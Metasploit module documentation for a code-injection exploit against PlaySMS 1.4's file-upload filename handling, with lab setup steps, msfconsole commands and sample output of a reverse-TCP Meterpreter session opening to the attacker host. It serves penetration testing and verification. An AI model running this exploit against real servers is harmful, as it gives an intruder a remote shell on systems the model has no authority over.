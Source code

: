 ## Description
This module exploits a code injection vulnerability within an authenticated file upload feature in PlaySMS v1.4. This issue is caused by improper file name handling in sendfromfile.php file. Authenticated Users can upload a file and rename the file with a malicious payload. Additional information and vulnerabilities can be viewed on Exploit-DB [42044](https://www.exploit-db.com/exploits/42003/).

## Verification Steps
Available at [Exploit-DB](https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz)

### Vulnerable Application Installation Setup.
 1. Download Application : `wget https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz`
 2. Extract : `tar -xvf 577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz`
 3. Move In WebDirectory : `mv playsms-1.4/web/* /var/www/html/`
 4. make config file: `cp /var/www/html/config-dist.php /var/www/html/config.php`
 5. Change Owner : `chown -R www-data:www-data /var/www/html/`
 6. Set DB creds in config.php File. And dump playsms-1.4/db/playsms.sql in your playsms database.
 7. Now Visit : http://localhost/

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/multi/http/playsms_filename_exec`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi SecreTSMSgatwayLogin`
 7. Do: `set username touhid`
 8. Do: `set password diana`
 9. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `exploit`
 13. You should get a shell.


## Scenarios
### Playsms on Ubuntu Linux
```
msf exploit(multi/http/playsms_filename_exec) > run                                                                                    
                                                                                                                                       
[*] Started reverse TCP handler on 10.22.1.3:4444                                                                                      
[+] X-CSRF-Token for login : 13bce9776cfc270a3779e8b557330cc2                                                                          
[*] Trying to Login ......                                                                                                             
[+] Authentication successful : [ touhid:diana ]                                                                                       
[+] X-CSRF-Token for upload : 2780d48dc11a482a58d8a95ad873c6cc                                                                         
[*] Trying to upload file with malicious Filename Field....                                                                            
[*] Sending stage (37775 bytes) to 10.22.1.15                                                                                          
[*] Sleeping before handling stage...                                                                                                  
[*] Meterpreter session 1 opened (10.22.1.3:4444 -> 10.22.1.15:38814) at 2018-04-08 13:45:34 +0530                                     
                                                                                                                                       
meterpreter >
```
